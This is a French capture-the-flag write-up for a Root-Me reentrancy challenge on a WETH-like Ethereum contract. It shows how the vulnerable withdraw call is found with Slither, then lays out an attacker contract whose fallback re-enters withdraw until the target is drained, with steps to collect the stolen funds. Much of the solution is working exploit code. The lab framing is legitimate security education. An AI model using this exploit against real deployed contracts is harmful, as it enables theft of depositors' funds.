

# Ethereum - Reentrancy
## 40 Points
### Poupées russes

## Énoncé
La société où vous êtes employé a décidé de copier le concept du célèbre token "Wrapped Ether (WETH)". Elle a récupéré un code source depuis internet et a publié son smart contract sans le contrôle d’un développeur Solidity, afin de limiter ses dépenses. Elle y dépose 0.1 ETH de garantie pendant la création du smart contract. Vous êtes sceptique quant à la sécurité de ce smart contract.

Votre objectif : voler les fonds déjà déposés de la société pour prouver à votre patron qu’il se trompe avant que des clients qui déposeraient de l’argent soient lésés !

## Solution

Le but de ce challenge est de vider le compte de la personne possédant tout sur le contrat Reentrancy. Comme son nom l'indique, il faut faire une Reentrancy Attack. Voici un schéma qui explique comment marche l'attaque pour y voir un peu plus clair:



Aux premiers abords, on ne trouve pas de faille. Si on s'y connait on peut directement aperçevoir la ligne très douteuse au sein de la fonction **withdraw**:
```Solidity
msg.sender.call.value(wad)("");
```
Ou sinon, on peut utiliser l'outils **Slither**, grâce auquel, en une ligne de commande, on peut aperçevoir les problèmes de sécurité à l'intérieur du contrat que l'on donne en argument:

```Bash
slither Reentrancy.sol
```

C'est ce que j'ai fait, et j'ai stocké les résultats [ici](./slither-result.txt).

A partir de ça j'ai fait mes recherches, et je suis tombé sur un très bon site qui explique comment marche, et c'était d'autant plus intéressant car cela expliquait avec éxactement le même cas de figure que le challenge: avec un contrant en solidity ^0.5.0.
[Lien du site.](https://medium.com/@secureblockchain/blockchain-exploitation-labs-reentrancy-my-notes-2a7ffd9cfe8a)

L'outils dont je me suis aidé pour la compilation et le déploiement des smarts contracts est donné sur la page du challenge: http://remix.ethereum.org/.

Donc j'ai commencé par reprendre le contrat donné pour le challenge, je le compile et déploie sur remix à l'adresse donner lorsque l'on créer une instance sur la page du site de rootme.

En suite, je réalise mon contrat d'attaque ([voir ici](./Attacker.sol)), grâce auquel je vais pouvoir communiquer avec le contrat principale, et cherhcer une manière de vider ses fonds.

Tout d'abord il faut créer une interface reprennant les fonctions withdraw et deposit, les seules dont on a besoin:
```Solidity
interface targetInterface{
    function deposit() external payable;
    function withdraw(uint withdrawAmount) external;
}
```

En suite, initialiser le contrat d'attaque et la target:
```Solidity
contract simpleReentrancyAttack {
    targetInterface bankAddress = targetInterface([target address]);
    uint amount = 0.001 ether;
    [...]
}
```

Maintenant, il faut mettre en place la stratégie d'attaque, il faut avoir un fonction de dépôt, pour envoyer de l'argent au contrat, puis ensuite, fait une fonction qui va récupérer notre argent, et prendre au passage tout le reste:
```Solidity
    function deposit() public payable {
        bankAddress.deposit{value: amount}();
    }

    function attack() public payable {
        bankAddress.withdraw(amount);
    }

    fallback () external payable {
        if (address(bankAddress).balance >= amount){
            bankAddress.withdraw(amount);
        }
    }
```

On rajoute aussi des fonctions pour avoir accès au montant de la balance de la target, et pour pouvoir récupérer les fonds voler sur notre wallet:
```Solidity
    function getTargetBalance() public view returns(uint) {
        return address(bankAddress).balance;
    }

    function retrieveStolenFunds() public {
        payable(msg.sender).transfer(address(this).balance);
    }
```

Le process pour pouvoir faire la reentrancy attaque de notre côté est le suivant:
1. On va envoyer 1 ETH à la target, puis voir si sa balance a augmenté
2. Utiliser la fonction attack et récupérer tout ce qu'il y a dans le contrat
3. Regarder si il reste encore quelque chose dans la balance de la target. Si il n'y a plus rien, c'est que notre attaque a marché, on qu'on peut donc faire retrieveStolenFunds() et récupérer tout ce qu'on a volé.

Lorsque la target est à 0 dans sa balance, on peut donc utiliser la fonction **claim**, puis pour mettre **locked** à false, puis en conséquence, appuyer sur next et récupérer le flag du challenge.
